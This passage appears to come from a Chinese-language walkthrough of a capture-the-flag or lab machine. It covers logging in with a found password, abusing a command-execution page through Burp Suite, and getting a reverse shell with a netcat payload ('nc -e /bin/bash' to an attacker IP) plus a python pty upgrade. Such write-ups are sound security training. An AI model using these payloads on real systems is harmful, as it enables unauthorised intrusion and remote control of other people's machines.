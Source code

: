 密码为happy

尝试登录：

![image-20211221151458491](https://raw.githubusercontent.com/todis21/image/main/img/image-20211221151458491.png)

登录成功

## 命令执行

登录成功后，点击Command ,发现这里是执行命令的页面

![image-20211221151713181](https://raw.githubusercontent.com/todis21/image/main/img/image-20211221151713181.png)

用burpsuite进行抓包重放

![image-20211221151957608](https://raw.githubusercontent.com/todis21/image/main/img/image-20211221151957608.png)

可以发现这里的命令，空格用`+`号代替了

尝试更改使用其他命令，看看这里能否执行:

这里我把命令改为了`id`

![image-20211221152213986](https://raw.githubusercontent.com/todis21/image/main/img/image-20211221152213986.png)

![image-20211221152231154](https://raw.githubusercontent.com/todis21/image/main/img/image-20211221152231154.png)

可以看到命令执行了

尝试反弹shell

```
kali：nc -lvvp 1234
```

http请求包处的命令改为：

```
radio=nc+-e+/bin/bash+192.168.10.128+1234&submit=Run
```

![image-20211221152801725](https://raw.githubusercontent.com/todis21/image/main/img/image-20211221152801725.png)

![image-20211221152824248](https://raw.githubusercontent.com/todis21/image/main/img/image-20211221152824248.png)

可以看到反弹shell成功

为了控制台好看一丢丢,输入下面的命令

```
python -c "import pty;pty.spawn('/bin/bash')"
```

![image-20211221153039086](https://raw.githubusercontent.com/todis21/image/main/img/image-20211221153039086.png)

## 寻找有用的信息
